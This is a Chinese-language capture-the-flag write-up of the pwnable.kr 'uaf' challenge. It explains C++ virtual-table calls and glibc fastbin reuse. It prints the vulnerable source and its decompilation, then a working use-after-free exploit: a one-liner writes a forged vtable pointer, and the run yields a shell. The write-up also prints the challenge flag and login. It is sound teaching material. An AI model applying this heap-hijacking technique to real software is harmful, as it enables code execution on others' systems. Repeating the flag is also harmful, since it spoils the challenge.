




```
uaf - 8 pt 

Mommy, what is Use After Free bug?

ssh uaf@pwnable.kr -p2222 (pw:guest)

pwned (2018) times.  // date 2018-10-10
```

这关一年前已经做过了，再做的时候已经忘了一大半了....主要考察的知识点有：C++的虚函数调用原理、glibc fastbin的管理机制、UAF漏洞利用。

看题目意思很明显是uaf漏洞，uaf漏洞的利用一般可以抽象为三个过程：

1. 出现悬挂指针（free之后）
2. 占位悬挂指针指向的内存（可以借助堆内存管理的机制）
3. 引用悬挂指针（use）

本关中，uaf漏洞很好找，三个case正好模拟了上面的三个过程：use的地方在case1，free的地方在case3，占位的地方在case2。

代码实现了一个基类Human，两个子类继承自Human，其中基类实现了private的虚函数和introduce虚函数，子类Man和Woman中重写了introduce虚函数。具体看一下源码：

```cpp
#include <fcntl.h>
#include <iostream>
#include <cstring>
#include <cstdlib>
#include <unistd.h>
using namespace std;

class Human{
private:
	virtual void give_shell(){
		system("/bin/sh");
	}
protected:
	int age;
	string name;
public:
	virtual void introduce(){
		cout << "My name is " << name << endl;
		cout << "I am " << age << " years old" << endl;
	}
};

class Man: public Human{
public:
	Man(string name, int age){
		this->name = name;
		this->age = age;
        }
        virtual void introduce(){
		Human::introduce();
                cout << "I am a nice guy!" << endl;
        }
};

class Woman: public Human{
public:
        Woman(string name, int age){
                this->name = name;
                this->age = age;
        }
        virtual void introduce(){
                Human::introduce();
                cout << "I am a cute girl!" << endl;
        }
};

int main(int argc, char* argv[]){
	Human* m = new Man("Jack", 25);
	Human* w = new Woman("Jill", 21);

	size_t len;
	char* data;
	unsigned int op;
	while(1){
		cout << "1. use\n2. after\n3. free\n";
		cin >> op;

		switch(op){
			case 1:
				m->introduce();
				w->introduce();
				break;
			case 2:
				len = atoi(argv[1]);
				data = new char[len];
				read(open(argv[2], O_RDONLY), data, len);
				cout << "your data is allocated" << endl;
				break;
			case 3:
				delete m;
				delete w;
				break;
			default:
				break;
		}
	}

	return 0;
}
```

反编译代码如下：

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  Human *v3; // rbx
  __int64 v4; // rdx
  Human *v5; // rbx
  int v6; // eax
  __int64 v7; // rax
  Human *v8; // rbx
  Human *v9; // rbx
  const char **v10; // [rsp+0h] [rbp-60h]
  char v11; // [rsp+10h] [rbp-50h]
  char v12; // [rsp+20h] [rbp-40h]
  Human *v13; // [rsp+28h] [rbp-38h]
  Human *v14; // [rsp+30h] [rbp-30h]
  size_t nbytes; // [rsp+38h] [rbp-28h]
  void *buf; // [rsp+40h] [rbp-20h]
  int choice; // [rsp+48h] [rbp-18h]
  char v18; // [rsp+4Eh] [rbp-12h]
  char v19; // [rsp+4Fh] [rbp-11h]

  v10 = argv;
  std::allocator<char>::allocator(&v18, argv, envp);
  std::string::string(&v11, "Jack", &v18);
  v3 = (Human *)operator new(0x18uLL);
  Man::Man(v3, (__int64)&v11, 25);
  v13 = v3;
  std::string::~string((std::string *)&v11);
  std::allocator<char>::~allocator(&v18);
  std::allocator<char>::allocator(&v19, &v11, v4);
  std::string::string(&v12, "Jill", &v19);
  v5 = (Human *)operator new(0x18uLL);
  Woman::Woman(v5, (__int64)&v12, 21);
  v14 = v5;
  std::string::~string((std::string *)&v12);
  std::allocator<char>::~allocator(&v19);
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        std::operator<<<std::char_traits<char>>(&std::cout, "1. use\n2. after\n3. free\n");
        std::istream::operator>>(&std::cin, &choice);
        if ( choice != 2 )
          break;
        nbytes = atoi(v10[1]);                  // after
        buf = (void *)operator new[](nbytes);
        v6 = open(v10[2], 0, v10);
        read(v6, buf, nbytes);
        v7 = std::operator<<<std::char_traits<char>>(&std::cout, "your data is allocated");
        std::ostream::operator<<(v7, &std::endl<char,std::char_traits<char>>);
      }
      if ( choice == 3 )
        break;
      if ( choice == 1 )                        // use
      {
        (*(void (__fastcall **)(Human *, int *))(*(_QWORD *)v13 + 8LL))(v13, &choice);
        (*(void (__fastcall **)(Human *))(*(_QWORD *)v14 + 8LL))(v14);
      }
    }
    v8 = v13;
    if ( v13 )
    {
      Human::~Human(v13);
      operator delete((void *)v8);
    }
    v9 = v14;
    if ( v14 )
    {
      Human::~Human(v14);
      operator delete((void *)v9);
    }
  }
}
```


## use

首先来看use的过程。C++中对象调用虚函数式依赖于virtual table实现的。比如m->introduce()的汇编代码如下：

1. 先从rbp-0x38取出m的地址
2. 从m的地址中取出虚表的地址
3. +8取出虚表中introduce函数的地址
4. 保存调用者m的地址到rdi
5. 调用introduce函数



IDA中也可以看到所有类的虚表信息如下：



## free

m和n通过new 0x18byte申请内存，在堆中的chunk大小是0x20。



在case3中delete了m和n之后，对应的chunk被释放，此时的fastbin信息如下：



由于delete之后，指针没有置null，因此导致了如果占位了m和n指向的内存空间后，就可以劫持其中的指针。

如何占位呢？根据glibc的fastbin管理机制，申请大小小于0x20-0x8个字节的内存时，会从0x20的fastbin中取出对应的bin复用。而case2中我们可以new任意大小的内存，因此可以成功占位。

占位之后如何劫持控制流呢？根据之前分析的use过程，调用虚函数时，先找虚表，再根据偏移找虚表中的函数地址。由于内存已经被我们占位， 因此虚表地址我们可以伪造，对应的函数我们也可以控制了。其中，Man的虚表地址是0x401570，+8找到introducde的地址，因此如果修改虚表为0x401568，+8找到的就是giveshell的地址了。


## flag

```bash
uaf@ubuntu:~$ python -c  'print "\x68\x15\x40\x00\x00\x00\x00\x00"' > /tmp/thinkycx  | cat /tmp/thinkycx
uaf@ubuntu:~$ ./uaf 3 /tmp/thinkycx
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1
$ ls
flag  uaf  uaf.cpp
$ cat flag
yay_f1ag_aft3r_pwning
```


## 参考

1. https://blog.csdn.net/qq_20307987/article/details/51511230
2. https://thinkycx.me/posts/2017-08-19-pwnable.kr-uaf.html